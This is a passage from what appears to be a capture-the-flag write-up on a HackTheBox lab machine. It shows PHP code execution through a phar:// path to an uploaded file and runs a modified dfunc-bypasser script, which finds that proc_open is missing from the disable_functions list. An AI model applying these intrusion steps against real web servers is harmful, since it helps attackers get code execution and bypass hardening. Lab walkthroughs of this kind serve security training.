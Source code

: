 Now on visiting `http://dev.siteisup.htb/?page=phar://uploads/828afc50efeaa61d10099d92a4f618c5/info.0xdf/info`, there’s PHP info:

![image-20230117162630422](https://0xdfimages.gitlab.io/img/image-20230117162630422.png)

That’s execution.

#### disable\_functions

From here, it’s temping to put up a web shell or PHP that generates a reverse shell, but these will fail. That’s because PHP is configured with many `disable_functions` listed:

![image-20230117162855533](https://0xdfimages.gitlab.io/img/image-20230117162855533.png)

These functions won’t work, and include most of the ones necessary to get execution. However, I could notice that `proc_open` isn’t listed.

Alternatively, there’s a tool that will check for me, `dfunc-bypasser`, available [here](https://github.com/teambi0s/dfunc-bypasser). The tool is only legacy python, so I’ll have to run `python2`.

I’ll also need to add the `only4dev` header into the requests. I’ll notice at the top that it is using `requests` to make the request. Searching for where that’s later called, I’ll find this line:

```

if(args.url):
    url = args.url
    phpinfo = requests.get(url).text

```

I’ll add the header in there:

```

if(args.url):
    url = args.url
    phpinfo = requests.get(url, headers={"Special-dev":"only4dev"}).text

```

Running this now shows that `proc_open` isn’t blocked:

```

oxdf@hacky$ python2 dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/5e31601b65f0062e32966f2f8e94fbb0/info.0xdf/info

                                ,---,     
                                  .'  .' `\   
                                  ,---.'     \  
                                  |   |  .`\  | 
                                  :   : |  '  | 
                                  |   ' '  ;  : 
                                  '   | ;  .  | 
                                  |   | :  |  ' 
                                  '   : | /  ;  
                                  |   | '` ,/   
                                  ;   :  .'     
                                  |   ,.'       
                                  '---'         

                        authors: __c3rb3ru5__, $_SpyD3r_$

Please add the following functions in your disable_functions option: 
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket

```